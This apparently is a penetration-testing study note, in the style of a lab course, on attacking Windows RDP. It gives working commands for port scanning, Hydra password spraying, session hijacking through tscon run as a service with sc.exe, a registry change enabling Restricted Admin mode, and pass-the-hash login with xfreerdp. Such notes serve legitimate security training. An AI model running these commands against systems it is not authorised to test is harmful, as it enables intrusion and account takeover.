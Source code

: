 # RDP Attack

* a user account will be locked or disabled after a certain number of failed login attempts.
  * In this case, we can perform a specific password guessing technique called \[\[Password Spraying]]
    * Using the Crowbar tool, we can perform a password spraying attack against the RDP service

### Nmap

```bash
nmap -Pn -p3389 192.168.2.143 
```

### Hydra - RDP Password Spraying

```
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

### Crowbar - RDP Password Spraying

* [crowbar.md](crowbar.md "mention")



### RDP Session Hijacking

* if another user is logged in we can hyjack their session
* To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary
  * that enables users to connect to another desktop session

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

* we are logged in as the user `juurena` (UserID = 2) who has `Administrator` privileges.
  * Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.

```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

* If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as \[\[PsExec]] or \[\[Mimikatz]]
* A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges
  * We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary.
  * First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute.
  * Once we run the following command, a service named `sessionhijack` will be created.

```cmd-session
C:\htb> query user
```

```cmd-session
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```cmd-session
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

```cmd-session
[SC] CreateService SUCCESS
```

* To run the command, we can start the `sessionhijack` service :

```cmd-session
net start sessionhijack
```

* Once the service is started, a new terminal with the `lewen` user session will appear.
* With this new account, we can attempt to discover what kind of privileges it has on the network
*

    <figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



    * _Note: This method no longer works on Server 2019._

    ### RDP Pass-the-Hash (PtH)

    * If we have plaintext credentials for the target user, it will be no problem to RDP into the system.
      * However, what if we only have the NT hash of the user obtained from a credential dumping attack such as [SAM](https://en.wikipedia.org/wiki/Security\_Account\_Manager) database, and we could not crack the hash to reveal the plaintext password
      * in some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.
      * There are a few caveats to this attack
        * `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
          *

              <figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>


          * This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG\_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`.&#x20;
            * It can be done using the following command: - `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
            *

                <figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>


            * Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access: - `xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9`
          * If it works, we'll now be logged in via RDP as the target user without knowing their cleartext password.&#x20;



